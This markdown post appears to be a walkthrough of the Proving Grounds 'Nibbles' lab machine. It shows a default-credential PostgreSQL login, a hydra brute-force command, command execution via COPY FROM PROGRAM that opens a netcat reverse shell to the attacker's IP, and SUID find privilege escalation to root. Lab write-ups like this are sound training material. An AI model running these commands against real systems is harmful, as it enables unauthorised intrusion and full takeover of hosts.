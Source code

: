 ```yaml
---
layout: post
title: PG | Nibbles
subtitle: This machine will highlight why we have hardening guidelines.
thumbnail-img: /assets/img/OffSec.png
---
```


# Nmap Scan Results

~~~
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-25 09:34 UTC
Nmap scan report for 192.168.191.47
Host is up (0.014s latency).
Not shown: 65529 filtered tcp ports (no-response)
PORT     STATE  SERVICE      VERSION
21/tcp   open   ftp          vsftpd 3.0.3
22/tcp   open   ssh          OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 10:62:1f:f5:22:de:29:d4:24:96:a7:66:c3:64:b7:10 (RSA)
|   256 c9:15:ff:cd:f3:97:ec:39:13:16:48:38:c5:58:d7:5f (ECDSA)
|_  256 90:7c:a3:44:73:b4:b4:4c:e3:9c:71:d1:87:ba:ca:7b (ED25519)
80/tcp   open   http         Apache httpd 2.4.38 ((Debian))
|_http-title: Enter a title, displayed at the top of the window.
139/tcp  closed netbios-ssn
445/tcp  closed microsoft-ds
5437/tcp open   postgresql   PostgreSQL DB 11.3 - 11.9
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 133.81 seconds
~~~

# Service Enumeration

## HTTP (TCP/80)
The target machine is running an Apache web server on port 80

![Nibbles](/assets/img/NibblesPG(1).png)

After digging around the contents of the website and running a gobuster sub-directory scan there was no significant entry point for a foothold

![Nibbles](/assets/img/NibblesPG(2).png)

## PostgreSQL (TCP/5437)

PostgreSQL is a relational database management system software commonly used on Unix systems.

I first attempted to connect to postgres using the default username of "postgres" and a null password, however it prompted for password authentication

~~~shell
┌──(kali㉿kali)-[~/Desktop/Nibbles]
└─$ psql -h 192.168.191.47 -U postgres -p 5437
Password for user postgres: 
psql: error: connection to server at "192.168.191.47", port 5437 failed: fe_sendauth: no password supplied
~~~

I then attempted a few manual password attempts of "password" and "postgres", and postgres was the password!

~~~shell
┌──(kali㉿kali)-[~/Desktop/Nibbles]
└─$ psql -h 192.168.191.47 -U postgres -p 5437
Password for user postgres: 
psql (16.0 (Debian 16.0-2), server 11.7 (Debian 11.7-0+deb10u1))
SSL connection (protocol: TLSv1.3, cipher: TLS_AES_256_GCM_SHA384, compression: off)
Type "help" for help.

postgres=# 

~~~

I then enumerated the available databases using "\l" cmdlet and listed our user's privileges via "\du+" which showed we have Superuser privileges

~~~shell
┌──(kali㉿kali)-[~/Desktop/Nibbles]
└─$ psql -h 192.168.191.47 -U postgres -p 5437
Password for user postgres: 
psql (16.0 (Debian 16.0-2), server 11.7 (Debian 11.7-0+deb10u1))
SSL connection (protocol: TLSv1.3, cipher: TLS_AES_256_GCM_SHA384, compression: off)
Type "help" for help.

postgres=# \l
                                                       List of databases
   Name    |  Owner   | Encoding | Locale Provider |   Collate   |    Ctype    | ICU Locale | ICU Rules |   Access privileges   
-----------+----------+----------+-----------------+-------------+-------------+------------+-----------+-----------------------
 postgres  | postgres | UTF8     | libc            | en_US.UTF-8 | en_US.UTF-8 |            |           | 
 template0 | postgres | UTF8     | libc            | en_US.UTF-8 | en_US.UTF-8 |            |           | =c/postgres          +
           |          |          |                 |             |             |            |           | postgres=CTc/postgres
 template1 | postgres | UTF8     | libc            | en_US.UTF-8 | en_US.UTF-8 |            |           | =c/postgres          +
           |          |          |                 |             |             |            |           | postgres=CTc/postgres
(3 rows)

postgres=# \du+
                                    List of roles
 Role name |                         Attributes                         | Description 
-----------+------------------------------------------------------------+-------------
 postgres  | Superuser, Create role, Create DB, Replication, Bypass RLS | 
~~~

After researching and with the help of [HackTricks](https://book.hacktricks.xyz/network-services-pentesting/pentesting-postgresql) I found a way to read directories and files by creating a database table and populating it with data on the targets local filesystem, which identified a user on the system named 'wilson'

![Nibbles](/assets/img/NibblesPG(3).png)

I then ran a hydra password brute force attempt on the wilson user account through the FTP service, but had no success so decided to dig deeper into what Superusers can do.
~~~shell
┌──(kali㉿kali)-[/usr/share/seclists/Passwords/Common-Credentials]
└─$ hydra -l wilson -P /usr/share/seclists/Passwords/Common-Credentials/10-million-password-list-top-10000.txt ftp://192.168.191.47
~~~

# Exploitation

I found a [RCE](https://book.hacktricks.xyz/network-services-pentesting/pentesting-postgresql) exploit that works for Superusers on PostgreSQL version 9.3+ and used it to execute a reverse shell

Create listener on port 80

~~~shell
┌──(kali㉿kali)-[~]
└─$ nc -nvlp 80
listening on [any] 80 ...
~~~

Perform RCE
~~~shell
postgres=# DROP TABLE IF EXISTS cmd_exec;
NOTICE:  table "cmd_exec" does not exist, skipping
DROP TABLE
postgres=# CREATE TABLE cmd_exec(cmd_output text);
CREATE TABLE
postgres=# COPY cmd_exec FROM PROGRAM 'nc -e /bin/sh 192.168.45.173 80';
~~~

And we recieved our reverse shell foothold!
~~~shell
┌──(kali㉿kali)-[~]
└─$ nc -nvlp 80
listening on [any] 80 ...
connect to [192.168.45.173] from (UNKNOWN) [192.168.191.47] 42184

whoami
postgres
~~~

# Privilege Escalation

I ran a scan using linpeas.sh which identified the "find" binary has the SUID bit set, which can be used to elevate privileges through the -exec option of the find cmdlet as discussed in [GTFOBins](https://gtfobins.github.io/gtfobins/find/#suid) list of binaries and bypasses
~~~shell
                      ╔════════════════════════════════════╗
══════════════════════╣ Files with Interesting Permissions ╠══════════════════════
                      ╚════════════════════════════════════╝
╔══════════╣ SUID - Check easy privesc, exploits and write perms
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#sudo-and-suid
strings Not Found                                                                                                                                                            
strace Not Found                              
-rwsr-xr-x 1 root root 309K Feb 16  2019 /usr/bin/find
~~~

Executing the PrivEsc
~~~shell
$ find . -exec /bin/sh -p \; -quit
# whoami
root
~~~
